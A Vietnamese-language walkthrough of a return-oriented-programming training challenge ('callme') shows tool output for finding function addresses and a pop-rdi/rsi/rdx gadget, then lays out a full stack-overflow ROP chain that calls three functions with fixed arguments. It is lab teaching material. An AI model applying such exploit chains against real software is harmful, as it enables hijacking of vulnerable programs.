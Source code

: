 Mỗi hàm cần truyền vào 3 tham số arg1, arg2 và arg3 lần lượt là 0xdeadbeef, 0xcafebabe và 0xd00df00d để có thể gọi hàm kế tiếp

![](images/Callme/1_image.png)

3 hàm này sử dụng lazy binding để thay đổi địa chỉ trong GOT và sẽ gọi đến địa chỉ hàm trong libcallme.so, tuy nhiên ta chỉ cần gọi địa chỉ của hàm trong binary là được. Tiến hành lấy các gadget cần thiết

```text-plain
$ rabin2 -i callme
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
...
3   0x004006f0 GLOBAL FUNC       callme_three
...
7   0x00400720 GLOBAL FUNC       callme_one
...
10  0x00400740 GLOBAL FUNC       callme_two
...

$ python3 Ropper.py -f callme
...
0x000000000040093c: pop rdi; pop rsi; pop rdx; ret;
0x00000000004006be: ret;
```

Sử dụng gadget `pop rdi; pop rsi; pop rdx; ret;` sẽ lấy lần lượt 3 vị trí kế tiếp trong stack làm argument cho hàm trả về của chúng ta

Ta sẽ build stack như sau:

```text-plain
  [A*8  ]
  [.....]
  [A*8  ] -> 40*A
  [0x40093c] -> pop rdi; pop rsi; pop rdx; ret;
  [0xdeadbeef] -> rdi - arg1
  [0xcafebabe] -> rsi - arg2
  [0xd00df00d] -> rdx - arg3
  [0x4006be] -> ret;
  [0x400720] -> callme_one();
  [0x40093c] -> pop rdi; pop rsi; pop rdx; ret;
  [0xdeadbeef] -> rdi - arg1
  [0xcafebabe] -> rsi - arg2
  [0xd00df00d] -> rdx - arg3
  [0x4006be] -> ret;
  [0x400740] -> callme_two();
  [0x40093c] -> pop rdi; pop rsi; pop rdx; ret;
  [0xdeadbeef] -> rdi - arg1
  [0xcafebabe] -> rsi - arg2
  [0xd00df00d] -> rdx - arg3
  [0x4006be] -> ret;
  [0x4006f0] -> callme_three();
```
